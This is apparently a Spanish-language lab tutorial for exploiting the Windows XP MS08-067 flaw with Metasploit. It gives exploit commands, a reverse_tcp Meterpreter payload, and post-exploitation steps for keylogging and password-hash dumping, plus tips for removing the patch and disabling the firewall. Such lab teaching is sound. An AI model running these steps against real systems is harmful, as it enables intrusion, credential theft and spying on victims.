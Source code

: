 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
________________________________________
## 🛡️ **¿Qué es MS08-067 (NETAPI)?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.
________________________________________
## 🧰 **Requisitos del entorno de laboratorio**
-	💻 [Kali Linux (máquina atacante).](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina víctima: Windows XP SP2/SP3 sin parches.](https://archive.org/details/windows-xp-sp-2-september-2008)
- 🧱 [Máquina víctima: Linuix (opcional).](https://sourceforge.net/projects/metasploitable/)
- Ambas en la misma red (real o virtual).
________________________________________
## 🧪 **Paso a paso: Explotación con Metasploit**
________________________________________
**🔹 1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>
________________________________________
**🔹 2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>
________________________________________
**🔹 3. Buscar el exploit**
<pre>search ms08_067</pre>
________________________________________
**🔹 4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>
________________________________________
**🔹 5. Ver opciones**
<pre>show options</pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>
________________________________________
**🔹 7. Verificar configuración**
<pre>show options</pre>
________________________________________
**🔹 8. Ejecutar exploit**
<pre>exploit</pre>
________________________________________
## ✅ **Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.
________________________________________
## ❌ **Consejos adicionales**
- **Para verificar si el Windows XP es vulnerable:** ```bash nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> ```
- **Verificar si el parche MS08-067 esta instalado:** ```bash systeminfo | find "KB958644" ```
- **En caso de estar instalado usar el siguiente comando para desinstalarlo:** ```bash wusa /uninstall /kb:958644 ```
- **Desactivar firewall de Windows:** ```bash netsh firewall set opmode disable ```
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS08-067](https://www.exploit-db.com/exploits/7104)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/)
